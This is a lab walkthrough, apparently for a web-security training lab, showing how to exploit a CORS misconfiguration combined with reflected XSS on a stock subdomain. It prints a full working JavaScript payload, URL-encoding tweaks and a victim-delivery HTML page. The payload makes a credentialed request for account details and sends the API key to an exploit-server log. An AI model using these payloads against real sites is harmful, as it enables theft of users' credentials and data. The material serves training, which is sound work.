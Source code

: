 In one-line:

```
<script>var req = new XMLHttpRequest();var url = ("https://0a1e008d0469f84380c3c126007600c7.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>
```

Added to the XSS exploit:

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1
```

The “+” sign is deleted:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/7.png)

We will change “+” with "%2B

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url %2B "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};</script>&storeId=1
```

Now we get the request in the logs:



![img](images/10%20-%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols/8.png)

Now we will add it to a payload like this so it opens when the message is received:

```
<body onload="window.open('URL')">
```

There are problems with nested quotes and double quotes so I will create a parameter “payload” with the CORS payload and send it to the victim:

```
<html>
<script>
var payload = "var req = new XMLHttpRequest();var url = (\"https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net\");req.onload = retrieveKeys;req.open('GET', url %2B \"/accountDetails\",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};" ;
</script>

<body onload="window.open('http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>'+payload+'</script>&storeId=1')">
</html>
```
